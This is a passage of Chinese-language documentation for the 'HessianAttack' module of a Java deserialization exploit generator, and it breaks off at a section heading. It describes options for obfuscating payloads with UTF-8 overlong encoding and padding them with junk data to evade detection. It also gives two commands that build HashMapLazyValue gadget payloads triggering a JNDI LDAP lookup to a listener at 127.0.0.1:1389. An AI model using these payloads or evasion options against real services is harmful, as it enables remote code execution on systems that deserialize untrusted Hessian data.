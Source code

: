 ![image-20250105135512035](images/image-20250105135512035.png)

### 额外的参数

HessianAttack模块设定的额外参数：

* hessianType：指定Hessian序列化的版本，参数为Hessian1或Hessian2
* hessianExcept：用于构造Hessian Except toString利用链
* utf8-bytes-mix：使用UTF-8 Overlong Encoding混淆序列化数据
* dirt-data-length：在序列化内容增加脏数据
* encode：序列化数据进行编码输出，Base64/Hex编码
* writeToFile：将最终生成的内容写入到文件

#### HessianType Hessian类型

描述：Hessian分为Hessian1和Hessian2，俩种序列化和反序列化协议有所差别

工具：-hessianType后面跟Hessian1或者Hessian2

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2"
```

#### Except Gadget 构造Except触发
